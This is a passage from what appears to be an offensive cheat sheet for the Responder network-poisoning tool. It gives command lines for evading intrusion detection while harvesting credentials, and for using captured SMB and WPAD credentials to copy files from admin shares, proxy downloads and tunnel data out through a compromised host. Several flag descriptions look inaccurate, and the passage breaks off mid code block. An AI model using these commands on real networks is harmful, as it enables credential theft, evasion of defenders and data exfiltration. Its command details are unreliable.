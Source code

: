 #### Defense Evasion

Responder can be configured to evade detection, making it a stealthy tool for credential harvesting and network attacks.

1. **Running Responder in Stealth Mode**: Captures credentials without actively poisoning the network, reducing the risk of detection.
    ```bash
    responder -I <interface> -p
    ```
2. **Using Custom User-Agent for Evasion**: Uses a custom User-Agent string to avoid detection by systems that look for default Responder signatures.
    ```bash
    responder -I <interface> -u "CustomUserAgent"
    ```
3. **Selective Poisoning to Avoid Detection**: Disables WINS poisoning while still capturing SMB and HTTP credentials, making the attack less obvious.
    ```bash
    responder -I <interface> -r -d
    ```
4. **Rotating IP Addresses to Evade Detection**: Changes the IP address used by Responder periodically, making it more difficult for defenders to detect and block the attack.
    ```bash
    while true; do
      responder -I <interface> -e $(shuf -n 1 -i 192.168.1.100-192.168.1.200)
      sleep 10
    done
    ```
5. **Introducing Delays to Thwart Detection Mechanisms**: Adds delays between responses to avoid triggering IDS/IPS systems that monitor for rapid, repeated attacks.
    ```bash
    responder -I <interface> -q 5 -w
    ```

#### Data Exfiltration

While Responder is primarily a credential harvesting tool, it can also be used to aid in data exfiltration by capturing access credentials.

1. **Capturing Credentials for Data Exfiltration**: Combines SMB and WPAD poisoning to capture credentials that can be used to access and exfiltrate data from internal systems.
    ```bash
    responder -I <interface> -r -w
    ```
2. **Using Captured SMB Credentials for Exfiltration**: Accesses an administrative share to exfiltrate sensitive data using captured SMB credentials.
    ```bash
    smbclient //target_ip/c$ -U "captured_user%captured_password" -c "get sensitive_file.txt"
    ```
3. **Exfiltrating Data via HTTP with Captured WPAD Credentials**: Uses WPAD credentials to exfiltrate data over HTTP, often bypassing typical data loss prevention (DLP) measures.
    ```bash
    curl -x http://captured_user:captured_password@target_ip/ http://target_resource/sensitive_file.txt -o exfiltrated_data.txt
    ```
4. **Tunneling Data Exfiltration through a Compromised Host**: Routes data through a compromised system, making it harder to detect and block the exfiltration.
    ```bash
    ssh -L local_port:target_ip:remote_port captured_user@compromised_ip
    scp -P local_port exfiltrated_data.txt local_user@localhost:/safe_location
    ```
5. **Using Responder for Persistent Access and Continuous Data Exfiltration**: Runs Responder in passive mode to continually capture credentials, which can then be used for ongoing data exfiltration efforts.
    ```bash